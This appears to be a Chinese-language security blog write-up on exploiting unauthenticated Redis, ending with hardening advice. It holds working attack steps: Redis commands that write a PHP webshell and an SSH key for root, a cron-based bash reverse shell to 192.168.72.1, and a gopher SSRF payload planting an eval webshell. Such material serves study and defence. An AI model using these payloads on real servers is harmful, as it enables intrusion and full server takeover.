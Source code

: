 ```yaml
---
title: "Redis Unauthorized Access"
date: 2021-06-08T21:20:11+08:00
toc: On
---
```


## 0x01 前言

**REmote DIctionary Server**(Redis) 是完全开源免费的，遵守BSD协议，Redis是一个由Salvatore Sanfilippo写的key-value存储系统。

 Redis 与其他它key - value 缓存产品有以下三个特点：

- Redis支持数据的持久化，可以将内存中的数据保存在磁盘中，重启的时候可以再次加载进行使用。
- Redis不仅仅支持简单的key-value类型的数据，同时还提供list，set，zset，hash等数据结构的存储。
- Redis支持数据的备份，即master-slave模式的数据备份。

Redis因配置不当可造成未授权访问。攻击者无需通过身份认证便可访问到内部数据，造成敏感信息泄露，也可以恶意执行flushall来清空所有数据。如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。

## 0x02 部署redis

```bash
# Download
wget http://download.redis.io/releases/redis-stable.tar.gz
# Decompression
tar -zxvf redis-stable.tar.gz
# Compile
cd redis-stable
make
# Run
cd src

sudo ./redis-server
#最新版本redis已经默认启动为普通用户 写ssh公钥和定时计划需root用户
```
![image-20210608213959530](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-08-image-20210608213959530.png)

## 0x03 写 Webshell

```
# kali @ kali in ~/redis-stable/src [9:44:29] 
$ ./redis-cli
127.0.0.1:6379> config set dir /var/www/html
OK
127.0.0.1:6379>  config set dbfilename hack.php
OK
127.0.0.1:6379> set shell "<?php phpinfo(); ?>"
OK
127.0.0.1:6379> save
OK
```
```
# kali @ kali in /var/www/html [9:46:40] 
$ cat hack.php 
REDIS0009�      redis-ver6.0.5�
�edis-bits�@�ctime�ct�`used-mem�5
 aof-preamble���shell<?php phpinfo(); ?>xB?
```

## 0x04 写入SSH公钥

首先我们需要判断redis 服务端是否为root用户启动。如果不是只能在`~/.ssh`写入(用处比较小)。如果为root权限，我们需要确定`/root`下是否有`.ssh`目录，以及`etc/ssh/sshd_config `下写有`PermitRootLogin yes`，好在以上两点都可以动过写入计划任务来实现。

```
flushall
set 1 `\n\n\nyour ssh-rsa public key\n\n\n`
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```

## 0x05 Crontab 定时任务

这个方法只能`Centos`上使用，`Ubuntu上行不通`，原因如下：

1. 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/<username>`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/<username>`权限644也能执行
2. 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

由于系统的不同，crontrab定时文件位置也会不同
 Centos的定时任务文件在`/var/spool/cron/<username>`
 Ubuntu定时任务文件在`/var/spool/cron/crontabs/<username>`

```
127.0.0.1:6379> flushall
OK
127.0.0.1:6379> set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.72.1/12345 0>&1\n\n'
OK
127.0.0.1:6379> config set dir /var/spool/cron/
OK
127.0.0.1:6379> config set dbfilename root
OK
127.0.0.1:6379> save
OK
```

![image-20210608221440872](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-08-image-20210608221440872.png)

## 0x06 Redis RCE

留个坑，不是很好理解

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

## 0x07 SSRF与Redis

首先我们需要知道Redis服务端与客户端的通信方式：

`Redis`服务器与客户端通过`RESP`（**REdis Serialization Protocol**）协议通信。
 RESP协议是在Redis 1.2中引入的，但它成为了与Redis 2.0中的Redis服务器通信的标准方式。这是您应该在Redis客户端中实现的协议。
 RESP实际上是一个支持以下数据类型的序列化协议：简单字符串，错误，整数，批量字符串和数组。

RESP在Redis中用作请求 - 响应协议的方式如下：

1. 客户端将命令作为`Bulk Strings`的RESP数组发送到Redis服务器。
2. 服务器根据命令实现回复一种RESP类型。

在RESP中，某些数据的类型取决于第一个字节：
 对于`Simple Strings`，回复的第一个字节是`+`
 对于`error`，回复的第一个字节是`-`
 对于`Integer`，回复的第一个字节是`:`
 对于`Bulk Strings`，回复的第一个字节是`$`
 对于`array`，回复的第一个字节是`*`
 此外，`RESP`能够使用稍后指定的`Bulk Strings`或`Array`的特殊变体来表示`Null`值。
 在RESP中，协议的不同部分始终以`"\r\n"(CRLF)`结束。

我们通过**wireshake**抓包简单理解以下。

```
127.0.0.1:6379> set name theoyu
OK
127.0.0.1:6379> get name
"theoyu"
```

![image-20210608223621767](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-08-image-20210608223621767.png)

**Hex Dump**:

![image-20210608224917392](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-08-image-20210608224917392.png)

正如前面所说，客户端向将命令作为`Bulk Strings`的RESP数组发送到Redis服务器，比如第一条指令可认作:`["set","name","theoyu"]`,`*3`表示数组长度为3，`$3`表示字符串长度，`0d0a`也就是`\r\n`为结束符。

ok明白了这些，直接构造命令编码，利用gopher协议即可。

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2436%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%27theoyu%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

## 0x08 Protection
1.禁止外网访问 Redis。修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用：
```
bind 127.0.0.1
```

2.以低权限运行 Redis 服务。

3.Redis 添加密码验证。修改 redis.conf ，添加：
```
requirepass yourpassword
```

4.禁止一些高危命令。修改 `redis.conf` 文件，添加如下选项来禁用远程修改 dir/dbfilename。

```
rename-command FLUSHALL ""
rename-command CONFIG ""
rename-command EVAL ""
```

5.保证 `authorized_keys` 文件的安全。为保证安全，阻止其他用户添加新的公钥。将 `authorized_keys` 的权限设置为对拥有者只读，其他用户没有任何权限：
```
chmod 400 ~/.ssh/authorized_keys
```
为保证 authorized_keys 的权限不会被改掉，还可以设置该文件的 `immutable` 位权限：
```
chattr +i ~/.ssh/authorized_keys
```
然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 位权限：
 ```
chattr +i ~/.ssh
 ```
**注**：如果需要添加新的公钥，需要移除 authorized_keys 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。

## 0x09 Reference

https://xz.aliyun.com/t/5665

https://3nd.xyz/2019/11/26/Redis-unauthenticate-exploit.html

https://xz.aliyun.com/t/5616